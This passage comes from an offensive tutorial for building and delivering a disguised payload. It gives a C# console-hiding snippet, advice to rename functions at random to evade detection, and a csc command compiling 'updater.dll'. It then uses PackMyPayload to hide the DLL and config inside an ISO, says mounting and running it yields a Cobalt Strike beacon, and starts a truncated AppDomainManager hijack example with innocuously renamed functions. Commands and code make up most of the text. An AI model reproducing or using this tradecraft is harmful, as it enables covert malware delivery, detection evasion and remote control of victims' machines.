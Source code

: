 ```

  

var handle = GetConsoleWindow();

  

// Hide

ShowWindow(handle, SW_HIDE);

  

// Show

ShowWindow(handle, SW_SHOW);


```  

  
Finally, do a find and replace on all of the functions. They can be changed to anything random. The final code should look like the example posted at the bottom. Build the solution and put the payload into an iso.


```
C:\windows\Microsoft.NET\Framework\v3.5\csc.exe /target:library /out:updater.dll ..\frostbyte-main\test.cs

```
  

### PackMyPayload

https://github.com/mgeeky/PackMyPayload

Copy your .dll, .exe, and your config file to a different folder.


Run the following command to create the iso file with the .ddl and config file hidden.

```
./PackMyPayload.py --hide updater.dll,updater.exe.config iUpdater updater.iso -v
```

Mount the iso and run the exe. You should get a beacon in cobalt strike.

### Example code

```
using System;
using System.IO;
using System.EnterpriseServices;
using System.Runtime.InteropServices;

public sealed class A54IPK : AppDomainManager
{
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {
		bool res = LunchMenu.DeliverPizza();
        return;
    }
}

public class LunchMenu 
{
    [DllImport("kernel32.dll")]
    static extern IntPtr GetConsoleWindow();
```